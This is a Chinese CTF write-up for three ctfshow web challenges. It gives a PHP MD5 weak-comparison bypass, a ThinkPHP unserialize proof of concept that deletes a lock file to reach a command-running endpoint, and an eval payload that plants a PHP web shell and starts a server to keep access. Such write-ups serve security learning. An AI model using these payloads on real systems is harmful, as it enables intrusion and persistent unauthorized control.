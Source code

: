 ﻿---
title: ctfshow 第二届月饼杯
categories: 赛题wp
---

# web签到
- MD5绕过
```p
<?php
//Author:H3h3QAQ
include "flag.php";
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET["YBB"])) {
    if (hash("md5", $_GET["YBB"]) == $_GET["YBB"]) {
        echo "小伙子不错嘛！！flag给你了：" . $flag;
    } else {
        echo "偶吼，带黑阔被窝抓到了！！！！";
    }
}
```

`0e215962017` 的 MD5 值也是由 0e 开头，在 PHP 弱类型比较中相等

[总结ctf中 MD5 绕过的一些思路](https://blog.csdn.net/CSDNiamcoming/article/details/108837347)

<!--more-->

# eztp
```p
<?php
namespace app\index\controller;
class Index
{   
    public function index($run=[])
    {
        highlight_file(__FILE__);
        echo '<h1>Welcome to CTFSHOW</h1></br>';
        echo 'Powered by PHPthink5.0.2</br>';
        echo dirname(__FILE__);

    if (!empty($run[2])){
            echo 'ZmxhZyBpcyBub3QgaGVyZSBidXQgaXQgaXMgaW4gZmxhZy50eHQ=';
        }
    if (!empty($run[1])){
            unserialize($run[1]);
        }
    }
    // hint:/index/index/backdoor
    public function backdoor(){
        if (!file_exists(dirname(__FILE__).'/../../'."install.lock")){
        echo "Try to post CMD arguments".'<br/>';
            $data = input('post.');
            if (!preg_match('/flag/i',$data['cmd'])){
                $cmd = escapeshellarg($data['cmd']);
        $cmd='cat '.$cmd;
        echo $cmd;
                system($cmd);
            }else{
                echo "No No No";
            }

        }else{
        echo dirname(__FILE__).'/../../'."install.lock has not been deleted";
    }
    }
}

Welcome to CTFSHOW

Powered by PHPthink5.0.2
/var/www/html/application/index/controller
```

要想执行backdoor 需要删除lock文件

根据报错信息知道版本为tp 5.0.24

[tp5.1反序列化分析](https://paper.seebug.org/1040/)

删除文件poc

```p
<?php
namespace think\process\pipes;
use think\Process;
class Pipes{}
class Windows extends Pipes{
	private $files = [];
	function __construct(){
		$this->files = ["/var/www/html/application/index/controller/../../install.lock"];
	}
}
echo urlencode(serialize(New Windows()))."\n";
?>
```
传run[1] , 成功删除,访问 /index.php/index/index/backdoor

payload:
```
cmd=/fl%99ag
```
# 不要离开我
```p
<?php

// 题目说明：
// 想办法维持权限，确定无误后提交check，通过check后，才会生成flag，此前flag不存在

error_reporting(0);
highlight_file(__FILE__);

$a=$_GET['action'];

switch($a){
    case 'cmd':
        eval($_POST['cmd']);
        break;
    case 'check':
        file_get_contents("http://checker/api/check");
        break;
    default:
        die('params not validate');
}
```
payload:
```
cmd=file_put_contents("/tmp/index.php","<?php eval(\$_POST[a]);?>");system ("sleep 5 && php -S 0.0.0.0:80 -t /tmp/");
```
[PHP: 内置Web Server - Manual](https://www.php.net/manual/zh/features.commandline.webserver.php)

`php -S 开启内置服务器   -t 指定目录`


